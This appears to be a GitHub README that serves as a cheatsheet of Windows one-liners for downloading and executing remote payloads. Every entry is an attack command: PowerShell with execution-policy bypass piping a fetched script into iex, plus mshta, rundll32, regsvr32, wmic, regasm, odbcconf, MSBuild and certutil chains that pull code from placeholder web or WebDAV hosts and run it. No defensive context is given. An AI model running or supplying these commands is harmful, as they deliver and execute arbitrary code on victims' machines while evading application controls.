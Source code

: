 # download-and-execute
- Windows download and execute remote payload oneliner cheatsheet

## Powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

powershell -exec bypass -f \\webdavserver\folder\payload.ps1

## CMD
cmd.exe /k < \\webdavserver\folder\batchfile.txt

## Cscript
cscript //E:jscript \\webdavserver\folder\payload.txt

## Mshta
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))

mshta http://webserver/payload.hta

mshta \\webdavserver\folder\payload.hta


## Rundll32
rundll32 \\webdavserver\folder\payload.dll,entrypoint

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();


## WMIC
wmic os get /format:"https://webserver/payload.xsl"

## Regasm
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll

## Regsvr32
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll

regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll

## odbcconf
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

## MSBuild
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

## Certutil
certutil -urlcache -split -f http://webserver/payload payload

certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
